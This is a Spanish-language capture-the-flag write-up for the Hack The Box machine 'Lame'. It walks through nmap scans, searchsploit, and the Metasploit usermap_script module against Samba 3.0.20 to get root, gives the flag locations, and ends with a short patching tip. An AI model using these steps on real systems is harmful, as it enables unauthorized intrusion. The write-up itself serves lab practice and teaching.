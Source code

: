 ```yaml
---
layout: single
title: Lame HTB
excerpt: "En el presente desafío, abordaremos la máquina Lame de Hack The Box. En este escenario, aprovecharemos una vulnerabilidad en el servicio Samba para comprometer la seguridad del sistema. La explotación se llevará a cabo mediante una versión desactualizada de Samba, que servirá como punto de entrada para obtener acceso a la máquina mediante el uso de Metasploit. Este enfoque estratégico nos permitirá penetrar la infraestructura de la máquina de manera efectiva y llevar a cabo las acciones necesarias para cumplir con los objetivos del reto."
date: 2024-02-28
classes: wide
header:
  teaser: /assets/images/lame_htb/Blue_card_Dark.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HTB
  - SMB
tags:  
  - HTB
  - LINUX
  - HTB
  - metasploit
  - nmap
---
```


![](/assets/images/lame_htb/Blue_card_Dark.png)

## Resumen 

En el presente desafío, abordaremos la máquina "Lame" de Hack The Box. En este escenario, aprovecharemos una vulnerabilidad en el servicio Samba para comprometer la seguridad del sistema. La explotación se llevará a cabo mediante una versión desactualizada de Samba, que servirá como punto de entrada para obtener acceso a la máquina mediante el uso de Metasploit. Este enfoque estratégico nos permitirá penetrar la infraestructura de la máquina de manera efectiva y llevar a cabo las acciones necesarias para cumplir con los objetivos del reto.


## Escaneo de puertos

Primero que todo hacemos un escaneo de puerto con **nmap** a los puertos abiertos con los siguientes parametros:
- **-p-** : Escanear todos los 65353 puertos que existen
- **-Pn** : Sirve para decirle a Nmap que el host destino si esta arriba
- **--min-rate 5000** : Lo que hace este parámetro de nmap es controlar el numero mínimo de paquetes por segundo que se enviara durante el escaneo 

```bash
nmap -p- -Pn --min-rate 5000 10.10.10.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-28 14:06 EST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 26.19% done; ETC: 14:07 (0:00:20 remaining)
Nmap scan report for 10.10.10.3
Host is up (0.55s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 28.70 seconds

```

ahora que ya tenemos el numero de puertos abiertos lo que hacemos es ejecutar los script de **nmap** para validar el servicio que esta corriendo en cada puerto, el comando nmap consta de los siguientes parametros:

- **-p** : Con este parámetro especificamos que puerto vamos a escanear
- **-sCV**: Con este parámetro hacemos que nmap ejecute algunos scripts para saber que tipo de servicio está corriendo en el puerto
- **-A** : Nos sirve para obtener una detección de servicios y sistemas operativos 

```bash
nmap -p21,22,139,445 -sCV -A -Pn  10.10.10.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-28 14:19 EST
Nmap scan report for 10.10.10.3
Host is up (0.14s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.64
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.23 (92%), DD-WRT v24-sp1 (Linux 2.4.36) (90%), Arris TG862G/CT cable modem (90%), Control4 HC-300 home controller (90%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (90%), Dell Integrated Remote Access Controller (iDRAC6) (90%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (90%), Linux 2.4.21 - 2.4.31 (likely embedded) (90%), Linux 2.4.27 (90%), Linux 2.4.7 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-02-28T14:19:59-05:00
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h30m08s, deviation: 3h32m11s, median: 5s

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   137.91 ms 10.10.14.1
2   154.59 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.65 seconds
```

Como podemos ver en el resultado del escaneo nos devuelve diferentes servicios , despues de revisar mucho notamos que el puerto **445** Esta corriendo una versión de samba vulnerable .


![](/assets/images/lame_htb/step1.png)

para buscar alguna vulnerabilidad utilizamos la herramienta de **searchsploit** que nos ayuda a buscar exploit de la pagina  [Exploit Database - Exploits for Penetration Testers, Researchers, and Ethical Hackers (exploit-db.com)](https://www.exploit-db.com/)  , teniendo en cuenta esto lo que podemos hacer es utilizar el siguiente comando para buscar algún exploit en este 

```bash
searchsploit samba 3.0.20
```

teniendo en cuenta esto nos listará las vulnerabilidades que se encontraron para este servicio y como podemos ver en **metasploit** existe un modulo que nos permite obtener una ejecución remota de comandos **RCE** 

![](/assets/images/lame_htb/step2.png)

por ende lo que haremos es abrir **metasploit** para poder explotar esta vulnerabilidad

```bash
service postgresql start && msfconsole
```

y buscamos algún modulo con la versión de samba

```bash
msf6 > search samba 3.0.20
```

![](/assets/images/lame_htb/step3.png)

por ende utilizamos el modulo resultante

```bash
msf6 > use exploit/multi/samba/usermap_script
```

![](/assets/images/lame_htb/step4.png)

con esto cambiamos el **rhosts** y **lhost**  y ejecutamos el exploit

```bash
exploit
```

ya con esto tendríamos acceso al servidor como root

![](/assets/images/lame_htb/step5.png)

con esto obtenemos las dos flags en los siguientes directorios
 - **/home/makis**
 - **/root**


# Referencias

- https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/samba/usermap_script
- [Samba “Username map script” in Metasploitable 2 | by Tsitsi Flora | Medium](https://tsitsiflora.medium.com/samba-username-map-script-in-metasploitable-2-887ffce250d3)

# Solventar vulnerabilidad

Para solventar esta vulnerabilidad se sugiere instalar o actualizar de forma correcta el sistema smb

- [How to configure Samba to use SMBv2 and disable SMBv1 on Linux or Unix - nixCraft (cyberciti.biz)](https://www.cyberciti.biz/faq/how-to-configure-samba-to-use-smbv2-and-disable-smbv1-on-linux-or-unix/)


